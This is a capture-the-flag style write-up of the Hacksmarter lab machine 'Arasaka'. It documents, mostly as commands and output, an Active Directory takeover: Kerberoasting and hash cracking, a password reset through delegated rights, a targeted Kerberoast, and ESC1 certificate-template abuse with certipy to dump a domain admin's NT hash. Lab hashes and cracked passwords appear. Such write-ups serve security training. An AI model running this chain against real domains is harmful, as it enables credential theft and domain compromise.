

# Arasaka


??? info 
    Author: Dcyberguy

    Status: Published

    Last edited time: November 21, 2025 9:01 PM

    Created time: November 20, 2025 10:23 PM

**`This is a writeup for the Hacksmarter Lab machine: Arasaka`**

### Host Information

```jsx
Ip address:             10.1.81.88
Host OS:                Windows
Difficulty:             Easy
Assumed breach creds:   faraday:hacksmarter123
```

??? warning
    alt.svc:babygirl1

    soulkiller.svc:MYpassword123#

## Enumeration 

```jsx
nmap -Pn -sV -sC -p- --min-rate=200 10.1.81.88 -T4   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-11-20 22:25 EST
Nmap scan report for 10.1.81.88
Host is up (0.018s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-21 03:30:09Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hacksmarter.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.hacksmarter.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.hacksmarter.local
| Not valid before: 2025-09-21T15:35:32
|_Not valid after:  2026-09-21T15:35:32
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hacksmarter.local0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.hacksmarter.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.hacksmarter.local
| Not valid before: 2025-09-21T15:35:32
|_Not valid after:  2026-09-21T15:35:32
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-11-21T03:31:37+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: HACKSMARTER
|   NetBIOS_Domain_Name: HACKSMARTER
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: hacksmarter.local
|   DNS_Computer_Name: DC01.hacksmarter.local
|   Product_Version: 10.0.20348
|_  System_Time: 2025-11-21T03:30:58+00:00
| ssl-cert: Subject: commonName=DC01.hacksmarter.local
| Not valid before: 2025-09-20T02:51:46
|_Not valid after:  2026-03-22T02:51:46
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
51147/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
51148/tcp open  msrpc         Microsoft Windows RPC
51160/tcp open  msrpc         Microsoft Windows RPC
51174/tcp open  msrpc         Microsoft Windows RPC
53744/tcp open  msrpc         Microsoft Windows RPC
53767/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-11-21T03:31:00
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 341.88 seconds

```

## SMB Enumeration

```jsx
nxc smb 10.1.81.88 -u faraday -p 'hacksmarter123'
SMB         10.1.81.88      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hacksmarter.local) (signing:True) (SMBv1:False)
SMB         10.1.81.88      445    DC01             [+] hacksmarter.local\faraday:hacksmarter123 
➜  ~ nxc smb 10.1.81.88 -u faraday -p 'hacksmarter123' --shares
SMB         10.1.81.88      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hacksmarter.local) (signing:True) (SMBv1:False)
SMB         10.1.81.88      445    DC01             [+] hacksmarter.local\faraday:hacksmarter123 
SMB         10.1.81.88      445    DC01             [*] Enumerated shares
SMB         10.1.81.88      445    DC01             Share           Permissions     Remark
SMB         10.1.81.88      445    DC01             -----           -----------     ------
SMB         10.1.81.88      445    DC01             ADMIN$                          Remote Admin
SMB         10.1.81.88      445    DC01             C$                              Default share
SMB         10.1.81.88      445    DC01             IPC$            READ            Remote IPC
SMB         10.1.81.88      445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.81.88      445    DC01             SYSVOL          READ            Logon server share 
➜  ~ nxc smb 10.1.81.88 -u faraday -p 'hacksmarter123' --users 
SMB         10.1.81.88      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hacksmarter.local) (signing:True) (SMBv1:False)
SMB         10.1.81.88      445    DC01             [+] hacksmarter.local\faraday:hacksmarter123 
SMB         10.1.81.88      445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.1.81.88      445    DC01             Administrator                 2025-09-18 22:40:20 0       Built-in account for administering the computer/domain 
SMB         10.1.81.88      445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.1.81.88      445    DC01             krbtgt                        2025-09-21 02:51:44 0       Key Distribution Center Service Account 
SMB         10.1.81.88      445    DC01             Goro                          2025-09-21 15:00:31 0       Loyal to a fault 
SMB         10.1.81.88      445    DC01             alt.svc                       2025-09-21 15:07:42 0       Trapped for eternity 
SMB         10.1.81.88      445    DC01             Yorinobu                      2025-09-21 15:12:44 0        
SMB         10.1.81.88      445    DC01             Hanako                        2025-09-21 14:59:03 0       Waiting at embers 
SMB         10.1.81.88      445    DC01             Faraday                       2025-09-21 15:06:45 0        
SMB         10.1.81.88      445    DC01             Smasher                       2025-09-21 15:01:20 0        
SMB         10.1.81.88      445    DC01             Soulkiller.svc                2025-09-21 15:30:13 0       Certificate managment for soulkiller AI 
SMB         10.1.81.88      445    DC01             Hellman                       2025-09-21 15:04:19 0        
SMB         10.1.81.88      445    DC01             kei.svc                       2025-09-21 15:05:16 0       Trapped for eternity 
SMB         10.1.81.88      445    DC01             Silverhand.svc                2025-09-21 15:03:10 0       Trapped for eternity 
SMB         10.1.81.88      445    DC01             Oda                           2025-09-21 15:02:14 0        
SMB         10.1.81.88      445    DC01             the_emperor                   2025-11-06 17:19:03 0        
SMB         10.1.81.88      445    DC01             [*] Enumerated 15 local users: HACKSMARTER

```

### Bloodhound

```jsx
nxc ldap 10.1.81.88 -u faraday -p 'hacksmarter123' --bloodhound --collection ALL --dns-server 10.1.81.88
SMB         10.1.81.88      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hacksmarter.local) (signing:True) (SMBv1:False)
LDAP        10.1.81.88      389    DC01             [+] hacksmarter.local\faraday:hacksmarter123 
LDAP        10.1.81.88      389    DC01             Resolved collection methods: trusts, session, dcom, rdp, objectprops, localadmin, psremote, container, acl, group
LDAP        10.1.81.88      389    DC01             Done in 00M 04S
LDAP        10.1.81.88      389    DC01             Compressing output into /home/parrot/.nxc/logs/DC01_10.1.81.88_2025-11-20_224934_bloodhound.zip

```

Faraday user has not `outbound Object Control`. This is a dead-end



### Kerberoasting

I was able to kerberoast the alt.svc user account

```jsx
nxc ldap 10.1.81.88 -u faraday -p 'hacksmarter123' --kerberoasting output.txt
SMB         10.1.81.88      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hacksmarter.local) (signing:True) (SMBv1:False)
LDAP        10.1.81.88      389    DC01             [+] hacksmarter.local\faraday:hacksmarter123 
LDAP        10.1.81.88      389    DC01             Bypassing disabled account krbtgt 
LDAP        10.1.81.88      389    DC01             [*] Total of records returned 1
LDAP        10.1.81.88      389    DC01             sAMAccountName: alt.svc memberOf:  pwdLastSet: 2025-09-21 11:07:42.894050 lastLogon:<never>
LDAP        10.1.81.88      389    DC01             $krb5tgs$23$*alt.svc$HACKSMARTER.LOCAL$hacksmarter.local/alt.svc*$68a3d482fdd27f57850eb8b6d0170b30$d63bd43e3b173b49a6465f8b9822015fc0de5bdafe9f6be422f7022e134009511761b6acdf420346b4321062f3a00d4f00b059622302a659353ba882345a6a7b649f7c81e1c21fad65a417f4f4fd809ae59fb1b22f62d420e871c47e0e3f92f5f426469900dec3bdff586c99ab62ef3161f9abd688f28e37efdd2f809f6e37ce4ca0ee55a4312049340b6672a02961aa1968863a3f86d031b4edceb1faef7f6c47f0f8491314d22edb17f02ecfebdf5634f6bc5824545f3993c6d9f2db249da9bd9c06e5a727964ca7145582939e2cf8be6adf1aa9f93b36cda09d5ecf4ae1c8ea4b0f09e30f889e8c77163c84962d6649ed4d5a1bf8d8ae5372d97587554e1ff5ce13b2e774e69e24ee45480b756951434be537a774b2ff27ae80466bd91ebe9cbb3e1aa160c4ab92975a7852a47972c7fb313b621459c41edba616bde952c327056fc587c7285e6865633a7412bfce6059f303ebe556194e25d7c0c533ac10b1ba1c622d96c8a51d4b690133ec91dd0cee9f0d914349936cc6018a5170ab6357a6980b673acb98d4a0d504abe8a432df4136bdb637f586a071432a0b720d7f53e6e4ed613228375d0d63e4445138e5c15caf6beceeac52901e3f0041a93d17efb4a6149d05ba70b8808f16310e22a27e5a53448e9da73853204c5d4181c50fc3517f68281b7e68715165cde3fb113ee3337fa48dc7655d977875384ac49d6f9b2d83b2479d04f7cb80001fbde5d89178a3e8db98c5179e9fbb228c2b85916092872a835bdfe76c6f2e1d10eb09359823c46bcf457c2e811abc7d9afdb17807cd0588695566c397d1a1a8b037025e484e2ac26350bdbb918ce797a99e93f1c01e58f143a43ecf7aaf4422a1c9dd11da2dca635e42f4a2e2cb925b65fabcfc2ebbcad3e73cba9c4822340e4089198395c651f1a94eb7cd056b5eb8d369c12ad678298b6cafa0262c902d438482572a67f6a4249d18c2255560f4a305c5d0aebb3a26ca5b247971ede3fdbe51b27f23d6529d75de841d0fe550c6f0471aa71932a42794fe57e54972ea4c0613789ac151955244690388063e21c66c782146598646ca104e672db5668cf172bafdcae1cb8e82aa9195cef6a83dd6b99552743df211e2639ee758e88291a8a3fc31f1710f51e2636572cf02fb602b7ea8adb89ee4dc7f5a648be2eb49e3dec4dd92bc69b3f09d4962c401b9e8af63baae3190883d12e386653224b7f58eb057a51b73fa6cb63d7d8ef861b4f30b45d656f82a24485d20406a21a09dd1549863588e4d18ac17727c4977f16ff5a865807049962bf4e150feba39c619154cc163225bd549e62f1717816e2d6eb5f589e844e129898992ee9379d797fb99c6a026ed591ebe91e429c3b011b6eeec74cbf2d20afdafaee91e2df5a11404b510613e27588f7fd3613b5a10f90e8aecdaa6cf40433ea11c4e637dc734f200e08f3d0181fec87a6676e00bc47a1837ee5762378d2c231a51b459851f996e2e3373daefc839e84dc37948846a14d55ce081

```

Cracked the above hash with John the Ripper

```jsx
sudo john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt kerb.hash
[sudo] password for parrot: 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
babygirl1        (?)     
1g 0:00:00:00 DONE (2025-11-20 23:29) 100.0g/s 153600p/s 153600c/s 153600C/s 123456..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

`ALT.SVC` has `generic.all` over `YORINOBU`. So I can change his password


He also has access to the Windows Remote Services

```jsx
net rpc password "yorinobu" "Valentino1@" -U "HACKSMARTER.local"/"alt.svc"%'babygirl1' -S "10.1.81.88"
➜  Arasaka nxc smb 10.1.81.88 -u yorinobu -p 'Valentino1@'
SMB         10.1.81.88      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hacksmarter.local) (signing:True) (SMBv1:False)
SMB         10.1.81.88      445    DC01             [+] hacksmarter.local\yorinobu:Valentino1@ 
➜  Arasaka nxc winrm 10.1.81.88 -u yorinobu -p 'Valentino1@'
WINRM       10.1.81.88      5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:hacksmarter.local)
WINRM       10.1.81.88      5985   DC01             [+] hacksmarter.local\yorinobu:Valentino1@ (Pwn3d!)

```

Looking at `Bloodhound` The Yorinobu has `Generic-Write` over `Soulkiller.svc` user account, which would allow me do a `targetedkerberberoast` and dump the `Soulkiller.svc` password hash


```jsx
targetedKerberoast git:(main) ./targetedKerberoast.py -v -d 'HACKSMARTER.local' -u 'yorinobu' -p 'Valentino1@'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (alt.svc)
$krb5tgs$23$*alt.svc$HACKSMARTER.LOCAL$HACKSMARTER.local/alt.svc*$0e940bf4b34479f7fc1f4ce6dedbe10c$446431d81883d6971cdce9e81564c327308b4b6bdb2c4d94470ebaae999c6a1fee2e0163b7592f16d36d16c8f29babd86271d626a4196375e6c8ff3297f32f682ba90204b02e75d8296638b3b902ece09f7fdd9d65ad7621106812f04256ef53783446b10f11c222dbb69eb8cfa786363bc7b78db6d1ce5732505e318fdd57b60068954bb1f26ff3ca82ee5207525dfb406cfadc903ed84d3f5f4e3feed4bfbbd39a547b187ebcafefc523a673d383ed6c306cd68a09fe0d8675c2d24d46f6892dbedc951fbec8f6580131955db9f4d8765dc110df4409a00da86c9452656e684e8d48859af2666c6cc369440b1bdb41ef0b26ce67ad58a346a08747cb1f565a8ac2ca08dbdbf12ce82483899c4bfcfdd05588cb12b37ad38c1298ebfca0b0f90c2a1ec61e14916ec8636e123b8896eefb089eac14d85b35a89b454a46f60d8bcc3c0eb199fb816f2aaec672b00df372d324d93ab5d4323b5e9c7f07120bfa0f5a411627cc2904e05229f0ff82c24678c5dc327299ee83ae7a4f2d183ebfa24de356ce7b769383a1262a4373a11c32d179076aa85b12192ac7fc2b69963a2a3e81f38d53eeca6ff708503aa5c5ee33ddb4fd534510362c206bb01d87695884580a39083122e10c28735dfaf961973c14675104f991579638822cd0d86ebdb25df20e416bb2dde849f1d8c3b8c199f47660ea81e30980b87693d5201dfb3326c61bf42b2f010b0e12db0eae76927607033b989765a54ed604c733c459fbbfaed68bea1bbb974e52f160cf0adcb04de68ab7d076cb9a2f1d3e426c8a77d507438467e4c56f959ed7bb5ff3632e678a97e395b79a4c3eb1a0a33e1385609d29c623e97f1f3d91ebb8905732ec546b36348e833b11bd3904ebb35158e6eddd12cc024684944c4ee55bc62f8a20160d3c8576b17cf0fcf21a3cdc1d0f6d79c0900626c0b8e211bf43cf8c64168364b7f2ce3673c5ab240f9c76afd9d90bbf84256dc3ceea1ec7327dab27a76659a331125b139b873ff17a5f2738115db0907c902073044d7f7963b6798318f886f2b899d8e6e07a02fc54f98c2db6848775bb6de99ad4b69989c7e5d6026732308dbec002711186535eb21d3fc6c13d2cbd4cad52fe976e5f2a779aab9283cc34175e4a2b9395923cddb847a3afd347ddac0a6efc63f791263f550247541db082fbbc426257c921f5741f4e012d526ad053b5a567d1ec34fc8adc884f1a03350327415d1b8e2e2025f41b478767892c12f7dc3a59894691bc594d6224026890cb7568f24fa6d4e5f452409ee8d8711572c9d41f192f87a51df139c6d6e3f107ef616a07c821a19e7c246acdeffe9c0101b5ae974886c6475a4c899213faa65c4d36575da8034f8e66f3a9ee2f979795600058e43bc37af1383877069aeb34073eb5727e94a09ac4117e7bf35b0dcae68b2763abd7a28dbe451788fcc3b2edd4a5717f5405d5c579ead470ee04c50cc97661142fb181e175c0f93f8704ddcd64abd704a4b30ad7bf6bdce78ebcf32bb38f40af1e5030ea5cef07d8af91595b304f39020b07e6643f
[VERBOSE] SPN added successfully for (Soulkiller.svc)
[+] Printing hash for (Soulkiller.svc)
$krb5tgs$23$*Soulkiller.svc$HACKSMARTER.LOCAL$HACKSMARTER.local/Soulkiller.svc*$a6083429a01568563ef56ec2f71c45ea$3798c1139fb4f18c906c9aa5e2b73580507694d21e2c9df9697106a09d0efc10837cd2962f6432523a9a1392570d62e2a71c4aff70dcf8673cf3c0f0d5cba2389277661fabe5559bb2218b910b2791fa8b2fde9f76a723e0fd7afc6bea5d4ca6507f086bd9ea29f5c8b21a12f4ca3163bab94676278fd5e719f81e0b1a26c148ff29579466b60433ecdcb27fb1b7641aa8791f1eb2b78fca83a7b3bcdee485c1ac00adf3ee179bb260d6f35fcd8277bf8decf72c43e9a42bf47a3d0a1bd58893b7e1f5529e17e2429bb7db1608ae63fed61b34138593a33fb7b1f6788e78c5ed7479e5a7c39f05c53103694008c4982546e12d5d80bc0a9ef6b700aba77681ab0c387c9f97bc80aa647270b1a068227e7015964cc1d44ccfa18fd48a6d9a16f160072d635a573b37c7aac73d204b0c8eb806c6950405c1aadc5c871a7910d9fce7be14821a2b3ee422a1c3bfc8814465ca99053a1180a9a32b5264a7d0388e6898c00888d1c367366b1961bebe88bb97a6bf28e52bdd9bf8b2119d75aa68f51962bb813c9d0b505628be0ede5e7fb679cc589911d1e2e872cbeb14c4198b0dddc25fd4ec4562c1a1b0f9186713fa425ef4b9e5d043f444337c786b6c3427551cbd968a33cbaf06d749cd7136cd8ebb1b11ee1ab1d7cb56365ef8aa7c7fc2a86f2331cfd794bbdbf1d91738999c4be2527db8bd2a98b824efd6a214e24a4746410487e4bd54a9b1314a3e73650691d65acd9dbff1fbeb05e4351d826afe3578b8b049fbad038a63680809181bf666b51bb94baa61a51df826579b12ce59581e61ac0494e4eebfcac0b9615beb44166102e4b0a3e0a0fbb9fab3e67d8a8105762e0690a2a3c7e617cd0dd62e734998eaf575249ae689f1dd7b9b48ea79e11cc639664709fe574f992a34621a36954b5852cc5f2e99dbb15e63086751465a38b18bcb1cd46cc4c4b92fc570f64b46f579cbff2843e614d1519f176537d7d61bf69796e4bff8a0975010df541ba3b221ede58d9c924b2918e9c789a48f67079d4b3e09874cc2d860bc59b7378fd7269e9b3c7f4aeb2fe60d05b561ccad0692aa6337a7914882fbed62c3297bcfc51beba2f21b83f1f908bbdd98e51a4a14002c31593ba7f35999112fe2e7596b1c5f7010cd06f644fb692b9c5af48b1f984da404c77749c640b73d64d07c24dcd3b5b8e4231b41791d31abf12dc62431c157f1415781aa9090171bfd01b6fe7ec3aac5f026fbc9406dab794303dc901bf1589bad06711c8173d001349f2386e71749725d87d9a7ca513a35283a815a5386030b612a1036a9999b59941af84f046605ff04790b56224ce0c861211d769fe0355dc857f7d711afad617e7e492a181400c6eb2e134595f195d9e4f06c459261ec9b7305757a46cedacb6dd9fb9ba8b6089151f2f3173f1c62905c95f4a53a46756253ef61955b5ff5e457bc87da7e5cb9a9222223139a778e89f99ea032951a4048e59d3391d7fbbae08fa10f17868be3b46caec398f633b2f2849445f2ee43578df0529fea15f80015ddc99016ae553f4ab269f538
[VERBOSE] SPN removed successfully for (Soulkiller.svc)
```

Cracked Soulkiller.svc password hash using John

```jsx
sudo john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt soulkiller.hash
[sudo] password for parrot: 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
MYpassword123#   (?)     
1g 0:00:00:05 DONE (2025-11-20 23:49) 0.1675g/s 1816Kp/s 1816Kc/s 1816KC/s MaRiAnItA..MYfamiLY4377
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

Since `soulkiller.svc` is a `Certificate managment for soulkiller AI` Let’s look for a vulnerable Certificate. And We found one

```jsx
certipy find -u soulkiller.svc -p 'MYpassword123#' -dc-ip 10.1.81.88 -target-ip 10.1.81.88 -vulnerable -enable -stdout
/home/parrot/.local/pipx/venvs/certipy-ad/lib/python3.11/site-packages/certipy/version.py:1: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'hacksmarter-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'hacksmarter-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'hacksmarter-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'hacksmarter-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : hacksmarter-DC01-CA
    DNS Name                            : DC01.hacksmarter.local
    Certificate Subject                 : CN=hacksmarter-DC01-CA, DC=hacksmarter, DC=local
    Certificate Serial Number           : 1DBC9F9ECF287FB04FDE66106578611F
    Certificate Validity Start          : 2025-09-21 15:32:14+00:00
    Certificate Validity End            : 2030-09-21 15:42:14+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : HACKSMARTER.LOCAL\Administrators
      Access Rights
        ManageCertificates              : HACKSMARTER.LOCAL\Administrators
                                          HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
        ManageCa                        : HACKSMARTER.LOCAL\Administrators
                                          HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
        Enroll                          : HACKSMARTER.LOCAL\Authenticated Users
Certificate Templates
  0
    Template Name                       : AI_Takeover
    Display Name                        : AI_Takeover
    Certificate Authorities             : hacksmarter-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : HACKSMARTER.LOCAL\Soulkiller.svc
                                          HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
      Object Control Permissions
        Owner                           : HACKSMARTER.LOCAL\Administrator
        Write Owner Principals          : HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
                                          HACKSMARTER.LOCAL\Administrator
        Write Dacl Principals           : HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
                                          HACKSMARTER.LOCAL\Administrator
        Write Property Principals       : HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
                                          HACKSMARTER.LOCAL\Administrator
    [!] Vulnerabilities
      ESC1                              : 'HACKSMARTER.LOCAL\\Soulkiller.svc' can enroll, enrollee supplies subject and template allows client authentication

```

## Privilege Escalation

Let’s get the `administrator.pfx`

```jsx
certipy req -username soulkiller.svc@HACKSMARTER.local -password 'MYpassword123#' -target-ip HACKSMARTER.local -dc-ip 10.1.81.88 -ca 'hacksmarter-DC01-CA' -template 'AI_Takeover' -upn 'administrator@HACKSMARTER.local'
/home/parrot/.local/pipx/venvs/certipy-ad/lib/python3.11/site-packages/certipy/version.py:1: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 8
[*] Got certificate with UPN 'administrator@HACKSMARTER.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

```

But I couldn’t dump the administrator hash. What happened? Let’s go back to `Bloodhound`

```jsx
certipy auth -pfx administrator.pfx -u administrator -domain HACKSMARTER.local  -dc-ip 10.1.81.88 -debug
/home/parrot/.local/pipx/venvs/certipy-ad/lib/python3.11/site-packages/certipy/version.py:1: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@hacksmarter.local
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_KEY_EXPIRED(Password has expired; change password to reset)

```

In `Bloodhound` Both Administrator and the_emperor are Domain Admin, Maybe I can get the emperor’s hash

```bash
certipy req -username soulkiller.svc@HACKSMARTER.local -password 'MYpassword123#' -target-ip DC01.HACKSMARTER.local -dc-ip 10.1.81.88 -ca 'hacksmarter-DC01-CA' -template 'AI_Takeover' -upn 'the_emperor@HACKSMARTER.local'
/home/parrot/.local/pipx/venvs/certipy-ad/lib/python3.11/site-packages/certipy/version.py:1: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 10
[*] Got certificate with UPN 'the_emperor@HACKSMARTER.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'the_emperor.pfx'
```

Then dump the hash

```bash
certipy auth -pfx the_emperor.pfx -u the_emperor -domain HACKSMARTER.local  -dc-ip 10.1.81.88 -debug
/home/parrot/.local/pipx/venvs/certipy-ad/lib/python3.11/site-packages/certipy/version.py:1: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: the_emperor@hacksmarter.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'the_emperor.ccache'
[*] Trying to retrieve NT hash for 'the_emperor'
[*] Got hash for 'the_emperor@hacksmarter.local': aad3b435b51404eeaad3b435b51404ee:d87640b0d83dc7f90f5f30bd6789b133

```

Since both the Administrator and the_emperor are Administrator’s, he would have the permissions to read the root.txt file


```shell
*Evil-WinRM* PS C:\Users\the_emperor\Desktop> cd ..
*Evil-WinRM* PS C:\Users\the_emperor> cd ..
*Evil-WinRM* PS C:\Users> dir

    Directory: C:\Users

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/18/2025  10:40 PM                Administrator
d-r---         9/15/2021   3:12 PM                Public
d-----         9/21/2025   2:56 PM                the_emperor
d-----         9/21/2025   3:27 PM                Yorinobu

*Evil-WinRM* PS C:\Users> cd Administrator
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/21/2016   3:36 PM            527 EC2 Feedback.website
-a----         6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website
-a----         9/21/2025   3:31 PM             32 root.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
fcf1dd0f08dXXXXXXXXXXXXXXXXXXXXXXXX
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 

```